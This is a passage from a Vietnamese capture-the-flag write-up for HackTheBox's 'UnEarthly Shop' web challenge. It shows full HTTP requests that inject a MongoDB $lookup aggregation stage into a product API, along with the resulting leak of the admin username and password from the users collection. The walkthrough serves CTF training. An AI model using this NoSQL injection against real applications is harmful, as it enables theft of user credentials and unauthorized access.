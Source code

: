 ```
HTB{tr4p_qu3u3d_t0_rc3!}
```

## UnEarthly Shop
#### Hard
Web chia làm 2 phần là frontend và backend, cùng server

Sài thử web thì có một request sau:
```http
POST /api/products HTTP/1.1
Host: 178.62.9.10:30498
Content-Length: 29
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://178.62.9.10:30498
Referer: http://178.62.9.10:30498/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

[{"$match":{"instock":true}}]
```
Ứng dụng sài mongo, vậy thay vì `$match` thì ta có thể sử dụng một aggregation operator khác để làm gì đó hay hay. 

https://www.mongodb.com/docs/v6.0/reference/operator/aggregation/lookup/
Đọc document sẽ tìm lấy `$lookup` giúp ta tìm kiếm data trong một collection khác

```http
POST /api/products HTTP/1.1
Host: 178.62.9.10:30498
Content-Length: 87
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://178.62.9.10:30498
Referer: http://178.62.9.10:30498/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

[{"$lookup":
{
    "from":"users",
    "localField":"_id",
    "foreignField":"_id",
    "as":"aaa"
}
}]
```
Ta sẽ nhận về được kết quả có chứa đoạn sau
```
"aaa":[{"_id":1,"username":"admin","password":"AmqKVZr1kEyeuJsF","access":"a:4:{s:9:\"Dashboard\";b:1;s:7:\"Product\";b:1;s:5:\"Order\";b:1;s:4:\"User\";b:1;}"}]
```
```
admin:AmqKVZr1kEyeuJsF
```
Trùng hợp là cả users và products đều có _id và _id đều có số 1 nên cách này mới thành công
